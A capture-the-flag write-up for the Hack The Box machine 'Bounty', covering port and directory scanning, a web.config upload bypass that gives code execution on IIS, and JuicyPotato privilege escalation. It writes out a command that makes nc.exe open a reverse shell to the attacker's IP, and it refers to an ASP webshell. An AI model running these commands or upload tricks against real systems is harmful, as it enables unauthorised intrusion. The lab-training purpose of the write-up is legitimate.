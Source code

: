 ```yaml
---
title: "[HTB] Machine: Bounty"
description: "[HTB] Machine: Bounty"
date: 2023-06-07
menu:
  sidebar:
    name: "[HTB] Machine: Bounty"
    identifier: htb-machine-bounty
    parent: htb-machines-windows
    weight: 10
hero: images/bounty.png
tags: ["HTB", "asp", "upload", "lonelypotato", "potato", "meterpreter", "ms10-051", "ms16-014", "web-config", "sherlock", "watson"]
---
```


# Bounty
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.93                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 16:26 BST
Nmap scan report for 10.10.10.93 (10.10.10.93)
Host is up (0.098s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.31 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.93 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x asp,aspx 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,apsx
[+] Timeout:                 10s
===============================================================
2023/06/10 16:39:26 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/UploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/UploadedFiles/]
/uploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedFiles/]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
Progress: 661634 / 661683 (99.99%)
===============================================================
2023/06/10 17:15:00 Finished
===============================================================
```
- Web server

![](./images/1.png)

## Foothold/User
- We see `transfer.aspx` and `uploadedFiles` endpoints available

![](./images/2.png)

![](./images/3.png)

- Let's upload a file
  - Success

![](./images/4.png)

![](./images/5.png)

- But I couldn't upload a file with `aspx` extension
  - there is a [blog](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
  - and [this one](https://soroush.me/blog/2019/08/uploading-web-config-for-fun-and-profit-2/) from the same author
  - Test out the `poc`
  - And we see that we have `rce`

![](./images/7.png)

- I was trying different variations of `poc` but had no success
  - Turns out, I broke the box so I needed to reboot it
  - Then I used the same `poc` from the first blog as in the picture above
  - But added few modifications, using `/usr/share/webshells/asp/cmdasp.asp`

![](./images/13.png)

![](./images/6.png)

- Let's upload and run it
  - And we get our foothold

![](./images/8.png)

![](./images/9.png)

## Root
- Enumerate privileges
  - `whoami /priv`
  - We see `SeImpersonatePrivilege`

![](./images/11.png)

- Let's run [JuicyPotato](https://github.com/decoder-it/juicy-potato)
  - So download `binary` and `nc.exe`
  - Set up new listener
  - `.\jp.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\users\merlin\downloads\nc.exe 10.10.16.3 7777 -e cmd.exe" -t *`
  - And root the box

![](./images/12.png)

![](./images/13.png)

